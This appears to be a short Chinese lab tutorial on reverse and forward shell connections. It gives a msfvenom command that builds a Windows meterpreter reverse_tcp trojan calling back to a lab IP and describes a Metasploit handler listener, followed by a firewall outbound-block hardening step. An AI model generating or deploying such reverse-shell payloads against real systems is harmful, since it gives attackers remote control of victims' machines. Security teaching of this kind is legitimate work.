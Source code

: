 1.正向/反向连接
- 反向连接:靶机主动连接攻击机的指定端口，建立通信.
- 适用场景：靶机在 NAT 内网、攻击机有公网 IP 或可被靶机访问时.

- 正向连接:靶机开放一个端口，攻击机主动连接该端口建立通信.
- 适用场景：攻击机可直接访问靶机.

2.制作木马,监听端口
- 在kali终端输入命令,制作木马
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.201.130 lport=8888 -f exe -o payload.exe
- 投放木马
![alt text](1.png)
- 开启端口并监听：输入msfconsole,输入search handler查找监听模块，输入use exploit/multi/handler,再设置攻击机ip和端口，监听
![alt text](2-1.png)

3.主机安全加固
- 打开高级防火墙，创建出站规则[新建规则->选择“端口”->选择TCP协议，特定端口->选择“阻止连接”->应用到“域、专用、公用”->命名]
![alt text](3.png)